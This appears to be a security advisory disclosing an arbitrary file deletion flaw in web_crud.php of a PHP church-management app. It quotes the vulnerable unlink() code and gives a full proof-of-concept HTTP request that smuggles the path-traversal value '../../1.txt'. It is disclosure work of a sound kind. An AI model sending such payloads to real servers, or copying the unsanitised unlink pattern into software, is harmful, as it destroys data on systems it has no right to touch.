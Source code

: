 ### Vulnerability file address

In line 80 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo1_img']);`,` $_POST['old_photo1_img']` parameters have not been restricted, which causes any file to be deleted

```php
    if (isset($_POST['update'])) {
        function generateUniqueFilename($file)
        {
            $file_extension = pathinfo($file['name'], PATHINFO_EXTENSION);
            $unique_filename = uniqid() . '.' . $file_extension;
            return $unique_filename;
        }

        if ($_FILES['photo1']['tmp_name'] != '') {
            $img = generateUniqueFilename($_FILES['photo1']);
            $filepath = "../../assets/images/" . $img;

            if (move_uploaded_file($_FILES["photo1"]["tmp_name"], $filepath)) {
                @unlink("../../assets/images/" . $_POST['old_photo1_img']);
            }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 370

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo1_img"

../../1.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo1";filename="1.txt"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `1.txt` file in the `church/` directory

![image-20250503210548929](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505032105038.png)



Then we execute the above poc to attack

![image-20250504201025986](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042010114.png)



Files are deleted after the attack is successful

![image-20250504201106592](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042011621.png)
